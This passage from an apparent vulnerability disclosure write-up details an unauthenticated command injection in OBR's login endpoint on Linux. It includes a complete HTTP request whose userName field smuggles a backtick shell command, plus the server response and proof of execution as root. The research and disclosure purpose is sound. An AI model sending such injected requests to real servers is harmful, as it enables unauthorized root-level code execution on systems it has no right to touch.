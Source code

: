 > Snippet 6: *PlatformCommandExecutor.execute()*

And finally here we have, in full glory, our command injection. Unfortunately for the attacker this only works in Linux due to the use of *ProcessBuilder*. 

If the operating system is Linux, *ProcessBuilder* will be invoked with *"bash -c"*, meaning we can easily inject shell metacharacters and execute our command.

However, if OBR is running on a Windows system, it will properly tokenize the arguments and invoke *ProcessBuilder* with an array of arguments. *ProcessBuilder* [works in a similar way to C's *execve*](https://docs.oracle.com/en/java/javase/11/docs/api/java.base/java/lang/ProcessBuilder.html): it will execute the first argument as a command and the rest as arguments.

If OBR is running in Linux, it is very easy for an unauthenticated attacker to achieve remote code execution as root. All that is needed is a request as shown below:

```
POST /AdminService/urest/v1/LogonResource HTTP/1.1
Host: mfobr.nat:21412
Content-Type: application/json
Content-Length: 69

{"userName":"something `whoami > /tmp/hehe`","credential":"whatever"}
```

The server will respond with *AUTHENTICATION_FAILED*:
```
HTTP/1.1 401 Unauthorized
Content-Type: application/json
Content-Length: 353
Date: Sun, 19 Apr 2020 20:36:57 GMT
Connection: close
Server: SHR

{
  "status" : 401,
  "code" : 401,
  "message" : "An error occurred. Please contact your system administrator",
  "developerMessage" : "An error occurred. Please contact your system administrator",
  "args" : "An error occurred. Please contact your system administrator",
  "moreInfo" : "mailto:support@hpe.com",
  "appCode" : "AUTHENTICATION_FAILED"
}
```

However our command will execute as:

```
BOAdapter -login -username something `whoami > /tmp/hehe` -password DF30F1CC12E738D97AB6CD32355CA1B1Z77092800A001308ACDF099CA2E6DAE2B -cms mfobr.nat -authType secEnterprise
```

With the result:

```
obruser@mfobr ~]$ cat /tmp/hehe
root
```
